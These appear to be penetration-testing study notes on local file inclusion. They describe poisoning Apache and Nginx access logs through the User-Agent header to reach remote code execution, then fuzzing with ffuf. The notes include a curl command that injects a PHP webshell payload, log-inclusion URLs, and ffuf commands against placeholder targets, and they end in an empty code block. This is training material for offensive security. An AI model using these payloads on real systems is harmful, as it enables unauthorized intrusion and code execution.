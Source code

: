As we can control the `User-Agent` header in our requests, we can use it to poison the server logs.
##### Apache logs
###### Linux
`/var/log/apache2/access.log`
###### Windows
`C:\xampp\apache\logs\access.log`
##### Nginx logs
###### Linux
`/var/log/nginx/access.log`
###### Windows
`C:\nginx\log\access.log`
##### /var/log/apache2/access.log
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```
![[lfi-access.log.png]]
The log contains the `remote IP address`, `request page`, `response code`, and the `User-Agent` header.
The `User-Agent` header is controlled by us through the HTTP request headers, so we should be able to poison this value.
#### RCE
###### Inject RCE Payload
![[server-poisoning-rce.png]]
###### Curl
```curl
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```
###### Execute RCE
![[access.log-rce.png]]
#### Other Service Logs
`/var/log/sshd.log`
`/var/log/mail`
`/var/log/vsftpd.log`
# Automated Scanning
## Fuzzing Parameters
```ffuf
ffuf -w /home/kali/Desktop/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```
## LFI wordlists
There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan. 
A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt).
```ffuf
ffuf -w /home/kali/Desktop/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```
## Fuzzing Server Files
#### Server Webroot
[Wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
[Wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt).
```ffuf
```